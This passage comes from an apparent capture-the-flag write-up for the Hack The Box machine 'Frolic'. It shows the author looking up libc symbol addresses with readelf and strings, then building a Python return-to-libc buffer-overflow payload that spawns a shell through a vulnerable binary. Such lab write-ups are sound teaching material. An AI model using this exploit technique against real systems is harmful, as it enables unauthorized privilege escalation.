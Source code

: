 I see that it is using `/lib/i386-linux-gnu/libc.so.6` from the `0xb7e19000` address in memory.

I then need to grab the memory location of several symbols from `libc.so.6` so I can invoke them in our exploit. From `libc.so.6` I need the memory address of the executables `system`, `exit`, and `/bin/sh`. Knowing these, I can craft an exploit known as [ret2libc][], or "return-to-libc."

```bash
www-data@frolic:/home/ayush/.binary$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i system
grep -i systemb/i386-linux-gnu/libc.so.6 |  
   245: 00112f20    68 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   627: 0003ada0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```

The memory address of `system@@GLIBC_2.0` is `0x0003ada0`.

```bash
www-data@frolic:~/html/playsms$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -i exit  
-i exit -s /lib/i386-linux-gnu/libc.so.6 | grep  
   112: 0002edc0    39 FUNC    GLOBAL DEFAULT   13 __cxa_at_quick_exit@@GLIBC_2.10
   141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
   450: 0002edf0   197 FUNC    GLOBAL DEFAULT   13 __cxa_thread_atexit_impl@@GLIBC_2.18
   558: 000b07c8    24 FUNC    GLOBAL DEFAULT   13 _exit@@GLIBC_2.0
   616: 00115fa0    56 FUNC    GLOBAL DEFAULT   13 svc_exit@@GLIBC_2.0
   652: 0002eda0    31 FUNC    GLOBAL DEFAULT   13 quick_exit@@GLIBC_2.10
   876: 0002ebf0    85 FUNC    GLOBAL DEFAULT   13 __cxa_atexit@@GLIBC_2.1.3
  1046: 0011fb80    52 FUNC    GLOBAL DEFAULT   13 atexit@GLIBC_2.0
  1394: 001b2204     4 OBJECT  GLOBAL DEFAULT   33 argp_err_exit_status@@GLIBC_2.1
  1506: 000f3870    58 FUNC    GLOBAL DEFAULT   13 pthread_exit@@GLIBC_2.0
  1849: 000b07c8    24 FUNC    WEAK   DEFAULT   13 _Exit@@GLIBC_2.1.1
  2108: 001b2154     4 OBJECT  GLOBAL DEFAULT   33 obstack_exit_failure@@GLIBC_2.0
  2263: 0002e9f0    78 FUNC    WEAK   DEFAULT   13 on_exit@@GLIBC_2.0
  2406: 000f4c80     2 FUNC    GLOBAL DEFAULT   13 __cyg_profile_func_exit@@GLIBC_2.2
```

The memory address of `exit@@GLIBC_2.0` is `0x0002e9d0`.

For `/bin/sh`, since it is not a system call, I have to find the memory address by grepping for it among the human-readable text in `libc.so.6`.

```bash
www-data@frolic:~/html/playsms$ strings -atx /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
p "/bin/sh"x /lib/i386-linux-gnu/libc.so.6 | gre 
 15ba0b /bin/sh
```

And I see the memory address of `/bin/sh` is `0x0015ba0b`.

I put all of this together in a Python exploit.

```python
#!/usr/bin/env python

import struct

buffersled = "A"*52

libc = 0xb7e19000
system = struct.pack('<I', libc + 0x0003ada0)
exit = struct.pack('<I', libc + 0x0002e9d0)
binsh = struct.pack('<I', libc + 0x0015ba0b)

payload = buffersled + system + exit + binsh

print payload
```


[brainfuck]: https://en.wikipedia.org/wiki/Brainfuck
[cyberchef]: https://gchq.github.io/CyberChef/
[fcrackzip]: https://github.com/hyc/fcrackzip
[gchq]: https://www.gchq.gov.uk/
[hackthebox]: https://www.hackthebox.eu
[little-endian]: https://chortle.ccsu.edu/AssemblyTutorial/Chapter-15/ass15_3.html
[playsms]: https://playsms.org/
[ook]: https://esolangs.org/wiki/Ook!
[ret2libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[rop]: https://ctf101.org/binary-exploitation/return-oriented-programming/
[backup dirlist]: /assets/img/htb/frolic/backup-dir.png
[backup pass]: /assets/img/htb/frolic/backup-pass.png
[backup user]: /assets/img/htb/frolic/backup-user.png
[cyberchef results]: /assets/img/htb/frolic/third-cipher-to-brainfuck.png
[login source]: /assets/img/htb/frolic/9999-login-source.png
[login source creds]: /assets/img/htb/frolic/9999-login-creds-source.png
[phpinfo]: /assets/img/htb/frolic/phpinfo-test-page.png
[second cipher zip]: /assets/img/htb/frolic/second-cipher-decode.png